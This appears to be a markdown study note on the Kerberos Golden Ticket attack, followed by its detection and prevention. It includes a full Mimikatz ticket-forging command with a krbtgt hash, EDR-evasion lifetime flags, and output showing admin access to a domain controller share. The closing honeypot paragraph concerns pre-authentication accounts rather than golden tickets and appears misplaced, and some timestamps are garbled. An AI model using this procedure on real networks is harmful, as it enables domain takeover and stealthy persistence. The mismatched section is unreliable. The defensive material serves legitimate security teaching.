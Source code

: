 # windows_attack_defense
### Golden Ticket Attack
The Kerberos Golden Ticket is an attack in which threat agents can create/generate tickets for any user in the Domain, therefore effectively acting as a Domain Controller.

When a Domain is created, the unique user account krbtgt is created by default; krbtgt is a disabled account that cannot be deleted, renamed, or enabled. The Domain Controller's KDC service will use the password of krbtgt to derive a key with which it signs all Kerberos tickets. This password's hash is the most trusted object in the entire Domain because it is how objects guarantee that the environment's Domain issued Kerberos tickets.

Therefore, any user possessing the password's hash of krbtgt can create valid Kerberos TGTs. Because krbtgt signs them, forged TGTs are considered valid tickets within an environment. Previously, it was even possible to create TGTs for inexistent users and assign any privileges to their accounts. Because the password's hash of krbtgt signs these tickets, the entire domain blindly trusts them, behaving as if the user(s) existed and possessed the privileges inscribed in the ticket.

The Golden Ticket attack allows us to escalate rights from any child domain to the parent in the same forest. Therefore, we can escalate to the production domain from any test domain we may have, as the domain is not a security boundary.

This attack provides means for elevated persistence in the domain. It occurs after an adversary has gained Domain Admin (or similar) privileges.

To perform the Golden Ticket attack, we can use Mimikatz with the following arguments:
- /domain: The domain's name.
- /sid: The domain's SID value.
- /rc4: The password's hash of krbtgt.
- /user: The username for which Mimikatz will issue the ticket (Windows 2019 blocks tickets if they are for inexistent users.)
- /id: Relative ID (last part of SID) for the user for whom Mimikatz will issue the ticket.

Additionally, advanced threat agents mostly will specify values for the /renewmax and /endin arguments, as otherwise, Mimikatz will generate the ticket(s) with a lifetime of 10 years, making it very easy to detect by EDRs:
- /renewmax: The maximum number of days the ticket can be renewed.
- /endin: End-of-life for the ticket.

**Note:**
we need to obtain the password's hash of krbtgt and the SID value of the Domain

```
. .\PowerView.ps1
Get-DomainSID

# mimikatz
kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt

# verify using klist
C:\Mimikatz>klist

Current LogonId is 0:0x9cbd6

Cached Tickets: (1)

#0>     Client: Administrator @ eagle.local
        Server: krbtgt/eagle.local @ eagle.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 10/13/2022 13/10/2022 06.28.43 (local)
        End Time:   10/13/2022 13/10/2022 06.36.43 (local)
        Renew Time: 10/13/2022 13/10/2022 06.35.43 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

# testing out the new tgt
C:\Mimikatz>dir \\dc1\c$

 Volume in drive \\dc1\c$ has no label.
 Volume Serial Number is 2CD0-9665

 Directory of \\dc1\c$

15/10/2022  08.30    <DIR>          DFSReports
13/10/2022  13.23    <DIR>          Mimikatz
01/09/2022  11.49    <DIR>          PerfLogs
28/11/2022  01.59    <DIR>          Program Files
01/09/2022  04.02    <DIR>          Program Files (x86)
13/12/2022  02.22    <DIR>          scripts
07/08/2022  11.31    <DIR>          Users
28/11/2022  02.27    <DIR>          Windows
               0 File(s)              0 bytes
               8 Dir(s)  44.947.984.384 bytes free
```


### Golden Ticket Detection
Correlating users' behavior is the best technique to detect abuse of forged tickets. Suppose we know the location and time a user regularly uses to log in. In that case, it will be easy to alert on other (suspicious) behaviors—for example, consider the account 'Administrator' in the attack described above. If a mature organization uses Privileged Access Workstations (PAWs), they should be alert to any privileged users not authenticating from those machines, proactively monitoring events with the ID 4624 and 4625 (successful and failed logon).

Domain Controllers will not log events when a threat agent forges a Golden Ticket from a compromised machine. However, when attempting to access another system(s), we will see events for successful logon originating from the compromised machine:

![logon after ticket](./img/logonAfterTickets.png)

Another detection point could be a TGS service requested for a user without a previous TGT. However, this can be a tedious task due to the sheer volume of tickets (and many other factors). If we go back to the attack scenario, by running dir \\dc1\c$ at the end, we generated two TGS tickets on the Domain Controller:

![ticket 1](./img/ticket1.png)

![ticket 2](./img/ticket2.png)

The only difference between the tickets is the service. However, they are ordinary compared to the same events not associated with the Golden Ticket.

If SID filtering is enabled, we will get alerts with the event ID 4675 during cross-domain escalation.

**Note:**
If an Active Directory forest has been compromised, we need to reset all users' passwords and revoke all certificates, and for krbtgt, we must reset its password twice (in every domain). The password history value for the krbtgt account is 2. Therefore it stores the two most recent passwords. By resetting the password twice, we effectively clear any old passwords from the history, so there is no way another DC will replicate this DC by using an old password. However, it is recommended that this password reset occur at least 10 hours apart from each other (maximum user ticket lifetime); otherwise, expect some services to break if done in a shorter period.

### Golden Ticket Prevention
Preventing the creation of forged tickets is difficult as the KDC generates valid tickets using the same procedure. Therefore, once an attacker has all the required information, they can forge a ticket. Nonetheless, there are a few things we can and should do:

- Block privileged users from authenticating to any device.
- Periodically reset the password of the krbtgt account; the secrecy of this hash value is crucial to Active Directory. When resetting the password of krbtgt (regardless of the password's strength), it will always be overwritten with a new randomly generated and cryptographically secure one. Utilizing Microsoft's script for changing the password of krbtgt KrbtgtKeys.ps1 is highly recommended as it has an audit mode that checks the domain for preventing impacts upon password change. It also forces DC replication across the globe so all Domain Controllers sync the new value instantly, reducing potential business disruptions.
- Enforce SIDHistory filtering between the domains in forests to prevent the escalation from a child domain to a parent domain (because the escalation path involves abusing the SIDHistory property by setting it to that of a privileged group, for example, Enterprise Admins). However, doing this may result in potential issues in migrating domains.


### Golden Ticket Honeypot
However, suppose the honeypot user is the only account with Kerberos Pre-Authentication not required. In that case, there might be better detection methods, as it would be very obvious for advanced threat actors that it is a honeypot user, resulting in them avoiding interactions with it. (I did previously hear from an organization that needed one of these accounts (application related) that the 'security through obscurity' behind having only one of these accounts may save them, as attackers will avoid going after it thinking it is a honeypot user. While it may be true in some instances, we should not let a glimpse of hope dictate the security state of the environment.)